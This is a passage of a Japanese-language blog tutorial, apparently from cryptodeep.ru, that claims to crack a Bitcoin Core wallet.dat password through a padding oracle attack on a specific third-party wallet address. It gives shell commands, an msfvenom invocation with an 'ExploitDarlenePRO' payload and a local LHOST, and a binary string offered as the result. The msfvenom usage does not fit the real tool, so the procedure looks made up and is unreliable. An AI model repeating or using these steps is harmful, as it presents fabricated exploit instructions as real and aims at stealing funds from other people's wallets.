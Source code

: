 

<p><strong>コマンドを実行してみましょう:</strong></p>



<pre class="wp-block-code"><code>!ip addr
!hostname -I</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2023/11/image-6.png" alt="人気のビットコインコアウォレットのWallet.datパスワード復号化に対するOracle攻撃のパディング" class="wp-image-3795"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>ツールを使用してペイロードを作成しましょう&nbsp;<strong><code>MSFVenom</code></strong></p>



<p>操作には、ビットコインウォレットを選択します:&nbsp;<strong><a href="https://btc1.trezor.io/address/1BtcyRUBwLv9AU1fCyyn4pkLjZ99ogdr7b" target="_blank" rel="noreferrer noopener">1BtcyRUBwLv9AU1fCyyn4pkLjZ99ogdr7b</a></strong>&nbsp;</p>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2023/11/image-80.png" alt="Libbitcoin Explorer 3.x ライブラリの Milk Sad 脆弱性、ビットコイン ウォレット (BTC) ユーザーからの 90 万ドルの盗難がどのように実行されたのか"/><figcaption class="wp-element-caption"><a href="https://btc1.trezor.io/address/1BtcyRUBwLv9AU1fCyyn4pkLjZ99ogdr7b" target="_blank" rel="noreferrer noopener">https://btc1.trezor.io/address/1BtcyRUBwLv9AU1fCyyn4pkLjZ99ogdr7b</a></figcaption></figure>



<p><strong>起動コマンド:</strong></p>



<pre class="wp-block-code"><code>!./msfvenom 1BtcyRUBwLv9AU1fCyyn4pkLjZ99ogdr7b -p modules/exploits/ExploitDarlenePRO LHOST=172.28.0.12 -f RB -o decode_core.rb -p bitcoin/src/crypto LHOST=172.28.0.12 -f CPP -o aes.cpp -p bitcoin/src/crypto LHOST=172.28.0.12 -f DAT -o wallet.dat
</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2023/11/image-104-1024x237.png" alt="人気のビットコインコアウォレットのWallet.datパスワード復号化に対するOracle攻撃のパディング" class="wp-image-4211"/></figure>



<p><strong>結果：</strong></p>



<pre class="wp-block-code"><code>1111111001010001100010110100011010011111011101001010111001011110010111000011101101000101010100001111000000011110010001110001110001011000111101001101110010010010101001101011110100010010100011011011001010111100110100110011100100001110110101001110111011100101</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>結果のバイナリ形式をファイルに保存する必要があります。Python<strong><em><a href="https://github.com/demining/CryptoDeepTools/blob/main/27PaddingOracleAttackonWalletdat/binary_save.py">スクリプトを</a></em></strong><strong><code><a href="https://github.com/demining/CryptoDeepTools/blob/main/27PaddingOracleAttackonWalletdat/walletpassphrase.txt" target="_blank" rel="noreferrer noopener">walletpassphrase.txt</a></code></strong>使用します。<strong><em><a href="https://github.com/demining/CryptoDeepTools/blob/main/27PaddingOracleAttackonWalletdat/binary_save.py"></a></em></strong></p>
